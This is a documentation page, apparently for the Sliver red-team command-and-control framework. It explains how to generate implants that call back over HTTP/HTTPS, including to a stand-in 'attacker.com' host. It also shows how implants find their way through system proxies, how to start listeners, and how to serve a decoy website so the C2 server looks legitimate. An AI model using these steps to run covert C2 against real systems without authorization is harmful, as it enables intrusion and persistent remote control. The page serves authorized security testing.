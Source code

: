 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies

The implant attempts to auto-detect proxy settings using a modified version of the [go-get-proxied](https://github.com/rapid7/go-get-proxied) library. It supports detection of system proxy settings on Windows, MacOS, and Linux. In the event the implant cannot make a successful HTTP/HTTPS connection for a given domain using the system proxy settings, it will also attempt to make a connection to the same domain ignoring the proxy settings. The order of connection attempts is as follows:

1. HTTPS over system proxy
1. HTTP over system proxy
1. HTTPS direct connect
1. HTTP direct connect


#### Proxy Configuration

The priority of retrieval is the following:
-  **Windows**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Internet Options: Automatically detect settings (`WPAD`)
   - Internet Options: Use automatic configuration script (`PAC`)
   - Internet Options: Manual proxy server
   - WINHTTP: (`netsh winhttp`)
- **Linux**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
- **MacOS**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Network Settings: `scutil`


## Start the Listener 

To start an HTTP listener use the `http` command, with no parameters this will start a listener on port 80 and respond to any domain (i.e., HTTP `Host:`) that comes in:

```
sliver > http
```

You can optionally restrict the listener to only respond to specific domain using the `--domain` flag, currently each listener can only accept a single domain (but you can start any number of listeners you want):

```
sliver > http --domain example.com
```


## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command (see `websites --help`):

```
websites --website fake-blog --web-path / --content ./index.html add
```

Each "website" is identified by a name (`fake-blog` in the example above) and is essentially just key<->value pairs request paths (e.g. `/foo/bar.html`) and response's content. Currently we don't support any regex matching for paths, it has to be an exact match, so keep that in mind if you're linking to content.

__Note:__ C2 related messages are identified, intercepted, and responded to prior to checking for user-provided `website` content, so you can actually map content to any URL used for C2.

To use your website with an HTTP(S) listener, specify it using `--website` when you start the listener:

```
sliver > http --website fake-blog --domain example.com
```

## SSL/TLS Certificates

By default when using the `https` listener Sliver will simply generate a random self-signed certificate. However, other options do exist. The `https` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt
```

This uses Let's Encrypt/ACME HTTP validation, so the listener will need the ability to start a public listener and you'll need to have the DNS for your `--domain` pointed to the Sliver server.

You can also upload your own SSL/TLS certificate/key pairs:

```
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
```

# Under the Hood




